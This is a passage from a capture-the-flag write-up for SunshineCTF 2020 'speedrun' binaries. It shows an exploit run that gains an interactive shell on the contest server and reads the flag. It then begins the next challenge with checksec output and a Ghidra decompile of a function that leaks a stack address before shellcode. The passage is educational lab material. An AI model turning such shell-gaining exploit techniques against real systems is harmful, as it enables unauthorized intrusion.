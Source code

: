 Output:

```bash  
# ./exploit_14.py REMOTE=1  
[*] '/pwd/datajerk/sunshinectf2020/speedrun-14/chall_14'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Opening connection to chal.2020.sunshinectf.org on port 30014: Done  
[*] Switching to interactive mode  
$ id  
uid=1000(chall_14) gid=1000(chall_14) groups=1000(chall_14)  
$ ls -l  
total 832  
-rwxr-xr-x 1 root root     844816 Nov  7 07:49 chall_14  
-rw-r----- 1 root chall_14     39 Nov  7 08:52 flag.txt  
$ cat flag.txt  
sun{hail-to-the-king-c24f18e818fb4986}  
```

## speedrun-15

### Checksec  
```  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      PIE enabled  
   RWX:      Has RWX segments  
```

Groan.  More shellcode.

### Decompile with Ghidra

```c  
void vuln(void)  
{  
 char local_4e [10];  
 int local_44;  
 undefined4 local_40;  
 undefined4 local_3c;  
 undefined4 local_38;  
 undefined4 local_34;  
 undefined4 local_30;  
 undefined4 local_2c;  
 undefined4 local_28;  
 undefined4 local_24;  
 undefined4 local_20;  
 undefined4 local_1c;  
 undefined4 local_18;  
 undefined4 local_14;  
 undefined4 local_10;  
 int local_c;  
  
 printf("There\'s a place where nothing seems: %p\n",local_4e);  
 local_c = 0xdead;  
 local_10 = 0xdead;  
 local_14 = 0xdead;  
 local_18 = 0xdead;  
 local_1c = 0xdead;  
 local_20 = 0xdead;  
```